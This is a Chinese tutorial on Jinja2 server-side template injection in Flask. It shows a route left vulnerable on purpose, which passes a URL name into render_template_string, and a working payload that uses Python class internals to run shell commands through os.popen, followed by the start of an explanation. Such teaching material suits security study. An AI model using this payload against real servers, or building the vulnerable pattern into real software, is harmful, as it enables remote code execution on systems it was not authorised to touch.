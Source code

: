 # 环境搭建
- Windows 10
- python3
- flask
- jinja2

# 测试代码
```
from flask import Flask, render_template, render_template_string

app = Flask(__name__)  
 
@app.route("/user/<name>")
def user(name):
    template = '''
    <h3>%s</h3>
    '''%(name)
    return render_template_string(template)

if __name__ == "__main__":  
    app.run() 

```
就是把url user后面的name输出出来
> 注意这里面如果使用render_template带入html模板的话就不会产生这个问题，将html模板通过`{%% extends "layout.html" %%}`引入到python中也会出现这个问题

# 常见payload解析
常见的payload的思路都常常是利用python内置的变量属性等出发·通过调用一些隐藏的属性（方法）从而实现代码输入

```
# 命令执行
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='catch_warnings' %}
		{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
	{% endif %}
{% endfor %}
```
首先这个使用了一个循环和if的jinja2的结构找到了一个类<class 'warnings.catch_warnings'>